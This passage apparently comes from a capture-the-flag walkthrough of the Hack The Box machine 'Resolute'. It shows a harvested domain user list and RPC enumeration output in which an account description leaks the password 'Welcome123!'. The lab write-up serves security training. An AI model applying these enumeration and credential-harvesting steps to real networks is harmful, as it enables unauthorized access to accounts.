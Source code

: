 Take the above usernames and save them in the file users.txt.

```
root@kali:~/htb/resolute$ cat users.txt 
Administrator
Guest
krbtgt
DefaultAccount
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```

Also I got the interesting result for `marko` user in the description `Account created. Password set to Welcome123!` which discloses the password of newly created user.

```
 ============================= 
|    Users on 10.10.10.169    |
 ============================= 
index: 0x10b0 RID: 0x19ca acb: 0x00000010 Account: abigail  Name: (null)    Desc: (null)
index: 0xfbc RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x10b4 RID: 0x19ce acb: 0x00000010 Account: angela   Name: (null)    Desc: (null)
index: 0x10bc RID: 0x19d6 acb: 0x00000010 Account: annette  Name: (null)    Desc: (null)
index: 0x10bd RID: 0x19d7 acb: 0x00000010 Account: annika   Name: (null)    Desc: (null)
index: 0x10b9 RID: 0x19d3 acb: 0x00000010 Account: claire   Name: (null)    Desc: (null)
index: 0x10bf RID: 0x19d9 acb: 0x00000010 Account: claude   Name: (null)    Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null)    Desc: A user account managed by the system.
index: 0x10b5 RID: 0x19cf acb: 0x00000010 Account: felicia  Name: (null)    Desc: (null)
index: 0x10b3 RID: 0x19cd acb: 0x00000010 Account: fred Name: (null)    Desc: (null)
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo  Name: (null)    Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus   Name: (null)    Desc: (null)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak   Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie  Name: (null)    Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki    Name: (null)    Desc: (null)
index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo    Name: (null)    Desc: (null)
index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per  Name: (null)    Desc: (null)
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan  Name: Ryan Bertrand Desc: (null)
```